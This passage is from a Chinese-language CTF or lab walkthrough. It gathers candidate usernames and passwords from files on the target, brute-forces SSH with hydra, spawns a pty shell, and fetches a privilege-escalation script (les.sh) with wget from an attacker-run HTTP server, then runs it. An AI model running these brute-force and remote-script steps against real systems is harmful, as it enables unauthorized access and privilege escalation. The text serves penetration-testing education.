 ####         25. 在此页面内又发现了一个txt文件，点击后可以看到下面的内容，这里就相当于是一个用户名的字典，找到了有用的用户名。

####          26.在桌面上创建一个名为user的文档来存储这些用户名。

####         27.回到浏览器的前面的页面，发现存在一个可能存在密码的文件。

####          28.进入后又发现了一个txt文件，打开后可以看到下面的内容，因此可以想到密码有可能是Good_job_:)也有可能是Pass.txt。

####          29.将猜想的可能的密码也放入一个txt文档中当作密码的字典。

####         30. 来到桌面路径下使用hydra工具对其进行爆破，可以看到成功将用户名和密码爆破了出来。 

```
hydra -L user -P password 192.168.190.139 ssh
```

####         31.接下来就使用爆破出来的用户名和密码进行登录，发现登录成功了。 

```
ssh overflow@192.168.190.139
```

####         32.但是发现此时的权限是低权限：

        因此还要进行提权，下面是linux提权的几种方式：

####         33.发现进入的是一个伪终端，因此还要将其转换为真终端，执行下面的命令就将其变成了真终端。

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

####         34.接下来开始提权。

####         35.首先在本地开启一个web服务。

```
python3 -m http.server 8083
```

####         35. 直接执行下面的命令将脚本文件下载到靶机上，但是发现下载失败了，因为此时权限不够。

```
wget http://192.168.190.138:8083/les.sh
```

####         36.切换到tmp目录下再次进行下载，发现下载成功了，因为其是一个临时文件，所以在此目录下的权限会高一些，因此就可以成功下载了。

####        37.下载完之后将web服务关闭，在终端内按CTRL+z。 

####       38.给其添加一个权限后进行执行。

```
chmod +x les.sh

./les.sh
```
